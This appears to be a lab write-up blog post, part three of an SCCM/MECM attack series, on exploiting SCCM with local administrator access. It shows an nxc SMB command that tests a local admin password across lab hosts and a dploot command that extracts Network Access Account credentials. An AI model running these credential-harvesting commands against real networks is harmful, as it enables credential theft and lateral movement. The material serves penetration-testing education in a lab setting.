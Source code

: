 ```yaml
---
layout: post
title:  "SCCM / MECM LAB - Part 0x3 - Admin User"
category : [AD, SCCM]
tags :  AD, SCCM
---
```


On the previous post ([SCCM LAB part 0x2]({% link _posts/2024-03-28-SCCM-LAB-part0x2.md %})) we have done SCCM exploitation with a low privilege user.
On this part we will exploit SCCM with an admin access on one vm.

On part 0x1 we discovered the credentials of local administrator user on CLIENT vm.

```bash
nxc smb 192.168.33.10-13 -u administrator -p 'EP+xh7Rk6j90' --local-auth
```

![nxc_localadmin.png](/assets/blog/SCCM/nxc_localadmin.png)

- So we will start by exploit with local admin account.
- also on part 0x2 we elevate the user carol to sccm administrator access so we will also look what we can do with that :)

# Exploit with local admin user

## Creds 3/4 - local admin get NAA

- Details here : [Creds_3](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-3/cred-3_description.md) and [Creds_4](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-4/cred-4_description.md)

### from linux
- with linux you can get the infos with [dploot](https://github.com/zblurx/dploot)

```bash
dploot sccm -u administrator -p 'EP+xh7Rk6j90' 192.168.33.13
```

![local_admin_naa_linux.png](/assets/blog/SCCM/local_admin_naa_linux.png)

